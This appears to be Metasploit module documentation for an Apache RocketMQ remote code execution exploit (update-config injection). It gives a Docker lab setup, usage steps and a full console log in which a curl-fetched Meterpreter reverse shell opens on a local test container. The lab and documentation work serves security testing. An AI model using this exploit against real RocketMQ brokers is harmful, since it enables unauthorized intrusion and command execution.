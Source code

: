 ## Vulnerable Application

RocketMQ versions 5.1.0 and below are vulnerable to Arbitrary Code Injection. Broker component of RocketMQ is
leaked on the extranet and lack permission verification. An attacker can exploit this vulnerability by using
the update configuration function to execute commands as the system users that RocketMQ is running as.
Additionally, an attacker can achieve the same effect by forging the RocketMQ protocol content.

### Setup

#### Docker setup
Instructions taken from https://github.com/Malayke/CVE-2023-33246_RocketMQ_RCE_EXPLOIT

```
    docker pull apache/rocketmq:4.9.4
    # Start nameserver
    docker run --rm --name rmqnamesrv -p 9876:9876 apache/rocketmq:4.9.4 sh mqnamesrv
    # Start Broker
    docker run --rm --name rmqbroker --link rmqnamesrv:namesrv -e "NAMESRV_ADDR=namesrv:9876" -p 10909:10909 -p 10911:10911 -p 10912:10912 apache/rocketmq:4.9.4 sh mqbroker -c /home/rocketmq/rocketmq-4.9.4/conf/broker.conf
```

## Verification Steps

1. Start msfconsole.
1. Do: ` use exploit/multi/http/apache_rocketmq_update_config`.
1. Set the `RHOST` and `LHOST` options.
1. Run the module.
1. Receive a session in the context of the user running the RocketMQ application.

## Options

### BROKER_PORT
The port the target RocketMQ Broker component is running on. If left unset the default port will be used if a Broker
port associated with the RHOST cannot be determined from querying the RocketMQ NameServer.

## Scenarios

### Docker container running RocketMQ 4.9.4, Target: Automatic (Unix In-Memory)

```
msf6 > use multi/http/apache_rocketmq_update_config
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_rocketmq_update_config) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/apache_rocketmq_update_config) > set FETCH_SRVHOST 172.16.199.158
FETCH_SRVHOST => 172.16.199.158
msf6 exploit(multi/http/apache_rocketmq_update_config) > set lhost 172.16.199.158
lhost => 172.16.199.158
msf6 exploit(multi/http/apache_rocketmq_update_config) > options

Module options (exploit/multi/http/apache_rocketmq_update_config):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   BROKER_PORT  10911            no        The RocketMQ Broker port. If left unset the module will attempt to retrieve the Broker port from the
                                           NameServer response (recommended)
   RHOSTS       127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.htm
                                           l
   RPORT        9876             yes       The RocketMQ NameServer port (TCP)
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0
                                        to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      OAvAHUouS        no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       172.16.199.158   yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               172.16.199.158   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/apache_rocketmq_update_config) > run

[*] Started reverse TCP handler on 172.16.199.158:4444
[*] 127.0.0.1:9876 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:9876 - The target appears to be vulnerable. RocketMQ version: 4.9.4
[*] 127.0.0.1:9876 - autodetection failed, assuming default port of 10911
[*] 127.0.0.1:9876 - Executing target: Automatic (Unix In-Memory) with payload cmd/linux/http/x64/meterpreter/reverse_tcp on Broker port: 10911
[*] Sending stage (3045348 bytes) to 172.17.0.3
[*] 127.0.0.1:9876 - Removing the payload from where it was injected into $ROCKETMQ_HOME. The FilterServerManager class will execute the payload every 30 seconds until this is reverted
[+] 127.0.0.1:9876 - Determined the original $ROCKETMQ_HOME: /home/rocketmq/rocketmq-4.9.4
[*] 127.0.0.1:9876 - Re-running the exploit in order to reset the proper $ROCKETMQ_HOME value
[*] Meterpreter session 5 opened (172.16.199.158:4444 -> 172.17.0.3:35532) at 2023-07-04 11:26:58 -0700

meterpreter > getuid
Server username: rocketmq
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.9.2009 (Linux 5.15.0-76-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

